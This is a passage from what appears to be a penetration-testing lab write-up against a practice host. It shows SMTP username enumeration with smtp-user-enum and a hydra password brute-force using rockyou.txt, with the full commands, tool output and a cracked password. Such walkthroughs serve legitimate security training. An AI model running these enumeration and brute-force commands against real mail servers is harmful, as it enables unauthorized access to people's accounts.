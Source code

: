 Neither VRFY or EXPN work, however the RCPT TO might method work. Let's use smtp-user-enum to try and bruteforce some usernames.

```
└─$ smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.134.169
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Thu Jan 30 22:51:22 2025 #########
10.129.134.169: fiona@inlanefreight.htb exists
######## Scan completed at Thu Jan 30 22:51:27 2025 #########
1 results.

79 queries in 5 seconds (15.8 queries / sec)
```

Awesome! The user `fiona` is valid. Let's use hydra and try and bruteforce her password.

```
┌──(kali㉿DESKTOP-JETQH0C)-[~/attackingcmnsrvcs]
└─$ hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt -f smtp://inlanefreight.htb
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-01 09:28:17
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking smtp://inlanefreight.htb:25/
[25][smtp] host: inlanefreight.htb   login: fiona@inlanefreight.htb   password: 987654321
[STATUS] attack finished for inlanefreight.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-01 09:28:23
```

At first, I used the provided `pws.list`, however that didn't work. So I then used `rockyou.txt` which gave us the password of `987654321`. We can't do much from SMTP other than send emails, which would be a finding in a pentest that could be used for social engineering and phishing emails, however for the purpose of getting us into the machine it doesn't help much. Let's try some password reuse.
